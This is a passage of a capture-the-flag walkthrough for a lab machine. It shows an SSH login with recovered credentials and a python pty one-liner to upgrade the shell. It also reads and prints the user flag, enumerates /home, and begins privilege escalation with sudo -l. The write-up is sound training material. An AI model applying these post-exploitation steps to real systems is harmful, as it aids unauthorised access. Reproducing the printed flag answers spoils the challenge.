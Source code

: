 Now that we have the credentials for SSH service, we can login and the first thing I did was spawning a TTY shell:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Simple_CTF]
└─$ ssh mitch@$IP -p2222
mitch@10.10.134.5's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
mitch@Machine:~$
~~~

Logged into: `SSH`

## User Flag

Now we have a shell and can read the user flag in our home directory:

~~~
mitch@Machine:~$ ls
user.txt
mitch@Machine:~$ cat user.txt 
G00d j0b, keep up!
~~~

User flag: `G00d j0b, keep up!`

## Other User

We are asked the name of the other user. We can find the other user by simply running `ls` for `/home`:

~~~
mitch@Machine:~$ ls /home
mitch  sunbath
~~~

Other user: `sunbath`

## Becoming root

Now we need to gain root access, in order to read the root flag. I ran `sudo -l` to check my sudo permissions.
